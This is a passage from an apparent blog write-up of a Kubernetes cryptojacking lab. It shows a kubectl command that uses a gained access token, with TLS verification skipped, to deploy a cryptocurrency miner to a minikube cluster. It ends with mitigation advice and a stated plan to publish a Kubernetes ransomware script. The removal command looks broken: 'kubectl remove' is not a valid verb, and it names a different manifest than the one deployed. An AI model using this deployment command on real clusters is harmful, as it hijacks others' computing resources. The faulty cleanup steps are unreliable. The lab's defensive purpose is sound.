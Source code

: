 ## Deploying

Using our gained access we run a single command. 

```bash
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN"  \
		  apply -f miner.yaml
```


![miners.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/miners.png)

You can easily remove these miners with the following command.

```bash
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN"  \
		  remove -f crypto.yaml
		  
# Tear down the cluster
minikube delete --all
```


## Wrap Up

The best mitigation for this is to make sure Kubelet APIs have authentication enabled and if possible do not expose them to the internet. A second fail-safe is using the principle of least privilege for pods using service accounts. In this case, the service account had full admin access. I am currently exploring ransomware in K8 and plan on publishing the script. So keep an eye out.





